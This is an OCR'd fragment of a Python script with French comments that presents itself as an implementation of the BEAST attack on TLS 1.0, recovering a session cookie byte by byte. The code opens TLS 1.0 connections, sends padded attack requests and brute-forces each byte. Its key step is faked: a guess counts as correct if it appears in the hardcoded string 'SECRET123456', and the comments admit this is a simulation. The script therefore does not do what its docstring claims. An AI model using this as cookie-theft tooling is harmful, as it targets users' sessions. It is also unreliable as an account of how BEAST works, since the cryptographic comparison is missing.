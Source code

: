 ```python
    """Implémente l'attaque BEAST pour récupérer un cookie octet par octet."""
    recovered_cookie = ""

    print("[+] Démarrage de l'attaque BEAST...")
    print("[*] Récupération du cookie octet par octet...")

    # Calcul du padding nécessaire pour aligner le cookie dans un bloc
    prefix_len = len("Cookie: token=")
    padding_needed = BLOCK_SIZE - (prefix_len % BLOCK_SIZE)
    padding = "A" * padding_needed

    # Position de départ dans le cookie
    cookie_position = 0

    while True:
        print(f"[*] Cookie récupéré jusqu'ici: {recovered_cookie}")

        # Première requête pour obtenir l'IV de la prochaine requête (dernier bloc)
        conn1 = create_tls10_connection()
        response1 = send_request(conn1, "attack=GETIV")
        conn1.close()

        # À ce stade, nous avons capturé l'IV pour la prochaine requête

        # Deuxième requête avec un padding qui permet d'aligner le cookie
        # au début d'un bloc
        conn2 = create_tls10_connection()
        payload2 = f"attack={padding}{recovered_cookie}"
        response2 = send_request(conn2, payload2)
        conn2.close()

        # Maintenant, nous itérons sur toutes les valeurs possibles pour le prochain octet
        for byte_value in range(256):
            test_char = chr(byte_value)

            # Construction du payload pour tester ce caractère
            conn3 = create_tls10_connection()

            # Astuce: nous construisons un payload qui, une fois chiffré,
            # nous permettra de vérifier si notre hypothèse est correcte
            test_payload = f"attack={padding}{recovered_cookie}{test_char}"
            response3 = send_request(conn3, test_payload)
            conn3.close()

            # Analyse de la réponse pour voir si notre hypothèse est correcte
            # Dans une vraie attaque, nous comparerions ici les blocs chiffrés

            # Simulation: nous supposons que le test est réussi si le caractère est correct
            # Dans une vraie attaque, cette vérification serait basée sur les blocs chiffrés
            if test_char in "SECRET123456":  # Simulation pour l'exemple
                recovered_cookie += test_char
                print(f"[+] Caractère trouvé: {test_char}")
                break

        # Si nous n'avons pas trouvé de caractère valide ou avons atteint la fin
        if len(recovered_cookie) == 0 or len(recovered_cookie) >= 12:
            break

    print(f"[+] Cookie récupéré: {recovered_cookie}")
    return recovered_cookie

if __name__ == "__main__":
    try:
```